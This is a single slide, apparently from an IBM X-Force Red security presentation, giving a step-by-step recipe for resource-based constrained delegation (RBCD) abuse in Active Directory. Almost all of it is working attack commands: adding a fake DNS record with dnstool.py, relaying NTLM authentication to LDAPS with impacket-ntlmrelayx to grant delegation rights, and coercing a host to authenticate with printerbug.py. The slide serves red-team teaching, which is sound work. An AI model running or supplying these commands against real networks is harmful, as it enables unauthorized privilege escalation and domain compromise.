

# DA, now what? > RBCD How To
First, we need a DNS record to force HTTP authentication:
python3 /opt/krbrelayx/dnstool.py -u domain.local\\ValidUser -p ValidPass -a add -r uniqueFakeRecord -d $yourIP $dcip
Set up your relay in a second terminal window
impacket-ntlmrelayx -t ldaps://dc01.domain.local -wh $yourIP --delegate-access --escalate-user $yourAccountWithAnSPN --no-dump --no-acl --no-da --no-validate-privs
Coerce some authentication
python3 /opt/krbrelayx/printerbug.py domain.local/ValidUser:ValidPass@remoteHost uniqueFakeRecord@80/fakepath

IBM Security X-Force Red / © 2022 IBM Corporation
54